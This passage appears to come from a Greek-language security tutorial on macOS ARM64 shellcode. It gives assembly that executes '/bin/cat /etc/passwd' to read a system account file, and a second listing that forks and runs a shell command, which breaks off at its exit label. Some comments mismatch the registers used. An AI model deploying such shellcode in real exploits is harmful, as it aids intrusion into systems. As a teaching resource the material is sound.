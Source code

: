 #### Διαβάστε με cat

Ο στόχος είναι να εκτελέσουμε `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, έτσι ώστε το δεύτερο επιχείρημα (x1) να είναι ένας πίνακας παραμέτρων (που στη μνήμη σημαίνει μια στοίβα διευθύνσεων).
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the execve syscall
sub sp, sp, #48        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, cat_path
str x0, [x1]           ; Store the address of "/bin/cat" as the first argument
adr x0, passwd_path    ; Get the address of "/etc/passwd"
str x0, [x1, #8]       ; Store the address of "/etc/passwd" as the second argument
str xzr, [x1, #16]     ; Store NULL as the third argument (end of arguments)

adr x0, cat_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


cat_path: .asciz "/bin/cat"
.align 2
passwd_path: .asciz "/etc/passwd"
```
#### Καλέστε την εντολή με sh από ένα fork ώστε η κύρια διαδικασία να μην σκοτωθεί
```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
; Prepare the arguments for the fork syscall
mov x16, #2            ; Load the syscall number for fork (2) into x8
svc 0                  ; Make the syscall
cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
beq _loop              ; If not child process, loop

; Prepare the arguments for the execve syscall

sub sp, sp, #64        ; Allocate space on the stack
mov x1, sp             ; x1 will hold the address of the argument array
adr x0, sh_path
str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
adr x0, sh_c_option    ; Get the address of "-c"
str x0, [x1, #8]       ; Store the address of "-c" as the second argument
adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

adr x0, sh_path
mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
mov x16, #59           ; Load the syscall number for execve (59) into x8
svc 0                  ; Make the syscall


_exit:
```